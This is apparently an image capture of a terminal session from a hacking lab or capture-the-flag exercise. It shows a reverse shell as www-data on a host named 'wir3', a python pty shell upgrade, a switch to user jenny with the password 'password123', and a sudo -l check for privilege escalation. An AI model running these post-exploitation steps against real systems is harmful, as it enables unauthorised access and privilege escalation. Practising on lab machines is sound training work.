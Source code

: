   ```
  Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
   22:26:54 up  2:21,  1 user,  load average: 0.02, 0.07, 0.08
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  jenny    tty1     -                20:06   37.00s  1.00s  0.14s -bash
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ 
  whoami
  
  www-data
  $ 
  ls -la
  
  total 1529956
  drwxr-xr-x  23 root root       4096 Feb  1 19:52 .
  drwxr-xr-x  23 root root       4096 Feb  1 19:52 ..
  drwxr-xr-x   2 root root       4096 Feb  1 20:11 bin
  drwxr-xr-x   3 root root       4096 Feb  1 20:15 boot
  drwxr-xr-x  18 root root       3880 Feb  1 20:05 dev
  drwxr-xr-x  94 root root       4096 Feb  1 22:23 etc
  drwxr-xr-x   3 root root       4096 Feb  1 20:05 home
  lrwxrwxrwx   1 root root         34 Feb  1 19:52 initrd.img -> boot/initrd.img-4.15.0-135-generic
  lrwxrwxrwx   1 root root         33 Jul 25  2018 initrd.img.old -> boot/initrd.img-4.15.0-29-generic
  drwxr-xr-x  22 root root       4096 Feb  1 22:06 lib
  drwxr-xr-x   2 root root       4096 Feb  1 20:08 lib64
  drwx------   2 root root      16384 Feb  1 19:49 lost+found
  drwxr-xr-x   2 root root       4096 Jul 25  2018 media
  drwxr-xr-x   2 root root       4096 Jul 25  2018 mnt
  drwxr-xr-x   2 root root       4096 Jul 25  2018 opt
  dr-xr-xr-x 117 root root          0 Feb  1 20:23 proc
  drwx------   3 root root       4096 Feb  1 22:20 root
  drwxr-xr-x  29 root root       1040 Feb  1 22:23 run
  drwxr-xr-x   2 root root      12288 Feb  1 20:11 sbin
  drwxr-xr-x   4 root root       4096 Feb  1 20:06 snap
  drwxr-xr-x   3 root root       4096 Feb  1 20:07 srv
  -rw-------   1 root root 1566572544 Feb  1 19:52 swap.img
  dr-xr-xr-x  13 root root          0 Feb  1 20:05 sys
  drwxrwxrwt   2 root root       4096 Feb  1 22:25 tmp
  drwxr-xr-x  10 root root       4096 Jul 25  2018 usr
  drwxr-xr-x  14 root root       4096 Feb  1 21:54 var
  lrwxrwxrwx   1 root root         31 Feb  1 19:52 vmlinuz -> boot/vmlinuz-4.15.0-135-generic
  lrwxrwxrwx   1 root root         30 Jul 25  2018 vmlinuz.old -> boot/vmlinuz-4.15.0-29-generic
  $ 
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  
  www-data@wir3:/$ 
  su jenny
  
  su jenny
  Password: 
  password123
  
  
  jenny@wir3:/$ 
  sudo -l
  
  sudo -l
  [sudo] password for jenny: 
  password123
  
  
  ```